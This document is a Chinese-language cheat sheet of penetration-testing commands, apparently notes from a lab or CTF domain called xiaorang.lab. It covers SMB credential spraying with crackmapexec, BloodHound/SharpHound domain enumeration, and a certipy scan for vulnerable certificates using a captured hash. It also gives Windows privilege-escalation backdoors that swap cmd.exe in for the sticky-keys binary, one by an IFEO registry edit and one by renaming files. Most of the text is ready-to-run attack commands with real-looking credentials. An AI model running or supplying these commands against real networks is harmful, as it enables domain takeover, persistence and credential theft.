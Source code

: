
* 有账户时批量探测  `proxychains crackmapexec smb 172.22.17.6 -u chen -p chen@0813`

# 进入域后, 某一点攻击成功后, bloodhound

```sh
proxychains bloodhound-python -d xiaorang.lab -u yangdming -p kier@n10 -gc dc.xiaorang.lab -c all
## 或 SharpHound
SharpHound.exe --ldapusername yangdming --ldappassword kier@n10 -c all
```

配置一下hosts：

```sh
172.22.61.17 xiaorang.lab
172.22.61.17 dc.xiaorang.lab
```

### certipy 证书探测

```sh
proxychains certipy find -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:41a258d72365350640270508748c9675 -dc-ip 172.22.61.17 -vulnerable
cat 20231030050124_Certipy.txt
```

## 常见提权

* 启动项提权, addUser.bat

###  SeRestorePrivilege提权
[卷影拷贝](https://mp.weixin.qq.com/s/4RahZ2ZXXL1jIpZm-QifMg)

参考https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8

```sh
# 开启粘滞键
## M1.
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"

## M2.
cd C:\windows\system32
ren sethc.exe sethc.bak
ren cmd.exe   sethc.exe
## 锁定用户，在登录处shift 5次触发粘滞键
```
## SeBackupPrivilege 提权
[卷影拷贝](https://mp.weixin.qq.com/s/4RahZ2ZXXL1jIpZm-QifMg)

* [注册表导出-hash](../14_credential_mimikatz.md#注册表导出-hash)
